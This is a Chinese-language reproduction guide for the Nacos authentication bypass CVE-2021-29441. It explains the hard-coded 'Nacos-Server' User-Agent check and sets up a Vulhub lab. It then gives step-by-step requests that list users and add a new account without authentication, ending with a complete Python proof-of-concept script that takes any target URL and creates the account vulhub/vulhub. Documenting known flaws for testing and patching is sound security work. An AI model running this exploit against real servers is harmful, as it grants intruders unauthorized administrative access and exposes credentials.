




Nacos 认证绕过漏洞 CVE-2021-29441¶
漏洞描述¶
Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。
该漏洞发生在 nacos 在进行认证授权操作时，会判断请求的 user-agent 是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的 user-agent 设置为 Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。
参考链接：
环境搭建¶
Vulhub 运行漏洞环境：
docker-compose up -d
环境运行后，会开放 3306、8848、9848、9555 端口，在本次漏洞利用中，我们只需要用到 8848 端口，即 web 访问端口。
执行漏洞验证过程时，请先访问 8848 端口，确认开放，某些情况下 nacos 服务会启动失败（无法连接数据库导致），可以重启 nacos 服务或者重启所有服务。
docker-compose restart nacos
漏洞复现¶
漏洞利用过程如下：
- 修改 User-Agent 的值为 Nacos-Server 到请求包中
- 访问
http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9查看状态码是否为 200，且内容中是否包含pageItems - 使用 POST 方式访问
http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub添加一个新用户 - 访问
http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9获取已有的用户列表 - 访问
http://target:8848/nacos/，使用添加的新用户 (vulhub/vulhub) 进行登录
检测漏洞是否存在
添加 Header 头后访问 http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9 可以看到返回值为 200，且内容中是否包含 pageItems。

添加新用户
添加 Header 头后使用 POST 方式请求 http://target:8848/nacos/v1/auth/users?username=test&password=test 添加一个新用户，账号密码都为 test。

使用新建的账号进行登录
使用账号密码 test/test 登录。

漏洞 POC¶
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import sys
import requests
headers = {
"User-Agent": "Nacos-Server"
}
def check(target):
endpoint = "/nacos/v1/auth/users?pageNo=1&pageSize=9"
r = requests.get(target.strip("/") + endpoint, headers=headers)
if r.status_code == 200 and "pageItems" in r.text:
print target + " has vulnerabilities"
return True
print target + "has not vulnerabilities"
return False
def add_user(target):
add_user_endpoint = "/nacos/v1/auth/users?username=vulhub&password=vulhub"
r = requests.post(target.strip("/") + add_user_endpoint, headers=headers)
if r.status_code == 200 and "create user ok" in r.text:
print "Add User Success"
print "New User Info: vulhub/vulhub"
print "Nacos Login Endpoint: {}/nacos/".format(target)
exit(1)
print "Add User Failed"
if __name__ == '__main__':
if len(sys.argv) != 2:
print "Please specify the target: python poc.py http://xxxxx:8848"
exit(-1)
if check(sys.argv[1]):
add_user(sys.argv[1])
python poc.py http://target:8848
